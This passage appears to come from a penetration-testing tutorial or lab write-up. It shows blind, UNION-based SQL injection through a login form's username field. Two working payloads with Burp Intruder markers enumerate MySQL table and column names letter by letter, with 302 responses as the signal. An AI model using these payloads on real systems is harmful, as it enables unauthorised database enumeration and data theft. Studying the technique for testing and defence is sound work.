 {% code overflow="wrap" %}
```
username=' UNION SELECT null,null,null,table_name FROM information_schema.tables WHERE table_schema not in ('information_schema', 'mysql', 'performance_schema', 'sys') and substring(table_name,§1§,1) = '§a§'-- -&password=password
```
{% endcode %}

Filter as always for only 302 response code:

<figure><img src="../../.gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
In this case we only have the table name in lower case since table names in MySQL are case sensitive!
{% endhint %}

<mark style="background-color:red;">table name: siteusers</mark>

Try to enumerate the columns name using the following payload:

{% code overflow="wrap" %}
```sql

username=' UNION SELECT null,null,null,column_name FROM information_schema.columns WHERE table_schema not in ('information_schema','mysql','performance_schema','sys') and table_name='siteusers' and substring(column_name,§1§,1) = '§u§';-- -&password=password
```
{% endcode %}

{% hint style="warning" %}
In this case we only have the column name in lower and upper case since column names in MySQL are case IN-sensitive!
{% endhint %}
